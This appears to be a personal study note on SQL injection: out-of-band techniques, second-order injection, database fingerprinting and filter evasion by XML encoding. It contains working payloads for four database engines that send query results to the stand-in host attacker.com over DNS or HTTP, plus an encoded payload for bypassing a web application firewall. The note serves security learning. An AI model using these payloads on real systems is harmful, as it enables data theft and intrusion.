

Out-of-Band SQL Injection is a class of SQL injection attacks where data exfiltration occurs **through external channels** rather than in the HTTP response.




This technique is used when:

- The application does not return errors (no error-based SQLi)
- Boolean/time-based blind SQLi is unreliable
- The application only allows outbound connections to limited hosts

OOB-SQLi requires that the database itself is capable of generating outbound requests (DNS/HTTP/SMB/etc.).

The attacker injects SQL payloads that trigger the database engine to make an outbound connection to a server under the attacker’s control.
Common protocols used:

- **DNS**
- **HTTP/HTTPS**
- **SMB (Windows environments)**

When the database queries the attacker’s controlled domain, information (like data fragments) can be encoded inside the outbound request.

> [!Example]+
> **MSSQL — OOB via DNS (xp_dirtree)**
> ```
> '; exec master..xp_dirtree '\\'+(select top 1 name from master..sysdatabases)+'.attacker.com\test' --
> ```
> **Oracle — OOB via HTTP (UTL_HTTP.REQUEST)**
> ```
> '|| UTL_HTTP.request('http://attacker.com/' || (SELECT banner FROM v$version WHERE ROWNUM=1)) ||
> ```
> **MySQL — OOB via DNS Rebinding (LOAD_FILE trick)**
> ```
> SELECT LOAD_FILE(CONCAT('\\\\',(SELECT user()),'attacker.com\\abc'));
> ```
> **PostgreSQL — OOB via COPY TO PROGRAM (Unix)**
> ```
> COPY (SELECT current_database()) TO PROGRAM 'curl http://attacker.com/?db=$(cat)';
> ```

> [!example]- Second-order SQL injection
>
First-order SQL injection occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.
>
Second-order SQL injection occurs when the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability occurs at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into a SQL query in an unsafe way. For this reason, second-order SQL injection is also known as stored SQL injection.
>
![[Pasted image 20260503015007.png]]
>
Second-order SQL injection often occurs in situations where developers are aware of SQL injection vulnerabilities, and so safely handle the initial placement of the input into the database. When the data is later processed, it is deemed to be safe, since it was previously placed into the database safely. At this point, the data is handled in an unsafe way, because the developer wrongly deems it to be trusted.
>
>## Examining the database
>
Some core features of the SQL language are implemented in the same way across popular database platforms, and so many ways of detecting and exploiting SQL injection vulnerabilities work identically on different types of database.
>
>However, there are also many differences between common databases. These mean that some techniques for detecting and exploiting SQL injection work differently on different platforms. For example:
>
>- Syntax for string concatenation.
>- Comments.
>- Batched (or stacked) queries.
>- Platform-specific APIs.
>- Error messages.
>
>After you identify a SQL injection vulnerability, it's often useful to obtain information about the database. This information can help you to exploit the vulnerability.
>
>You can query the version details for the database. Different methods work for different database types. This means that if you find a particular method that works, you can infer the database type. For example, on Oracle you can execute:
>
>`SELECT * FROM v$version`
>
>You can also identify what database tables exist, and the columns they contain. For example, on most databases you can execute the following query to list the tables:
>
>`SELECT * FROM information_schema.tables`

## SQL injection in different contexts

In the previous labs, you used the query string to inject your malicious SQL payload. However, you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database.

These different formats may provide different ways for you to [obfuscate attacks](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often look for common SQL injection keywords within the request, so you may be able to bypass these filters by encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the `S` character in `SELECT`:

```
<stockCheck> <productId>123</productId> <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId> </stockCheck>
```

This will be decoded server-side before being passed to the SQL interpreter.

